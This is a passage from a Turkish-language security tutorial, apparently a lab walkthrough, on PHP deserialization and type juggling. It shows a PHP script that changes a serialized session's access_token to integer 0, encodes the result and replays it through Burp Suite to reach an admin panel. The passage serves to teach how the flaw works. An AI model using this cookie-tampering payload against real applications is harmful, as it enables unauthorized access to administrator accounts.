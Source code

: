 Bu noktada şu kaynak da faydalı olacaktır: **[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)**

Burada doğru ilerleyebilmek için kendi sınıfımızı yazarak uygulamada bulunan session bilgisini serialize etmemiz gerekmektedir. Daha sonra burada elde ettiğimiz sonucu kullanabiliriz. 

```php
Modifying-serialized-data-types.php dosyası:
<?php

class User{
    var $username;
    var $access_token;
}

$payload = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nx19tbfamwu23nmwavajsa1m796exwqm";}';

$user = unserialize($payload);
$user->access_token = 0;

echo serialize($user);
```

```php
php Modifying-serialized-data-types.php
```

Output:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
```

Hatta burada isterseek url encoding ve base64 encoding işlemlerini de yapabiliriz. Kodumuza bu kısmı ekliyoruz.

```php
echo urlencode(
    base64_encode(serialize($user))
);
```

Output:

```php
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ%3D%3D
```

Bu işlemi burpsuite tarafına taşıdığımızda artık elde ettiğimiz yeni session bilgisi ile ilerleyince admin panelinin geldiğini görebilmekteyiz…

![Untitled](0x0C%20Deserialization%20Zafiyetlerini%20Anlamak%20Episode%2078d04d91baaa44d0959227e5c55cbc59/Untitled%2013.png)
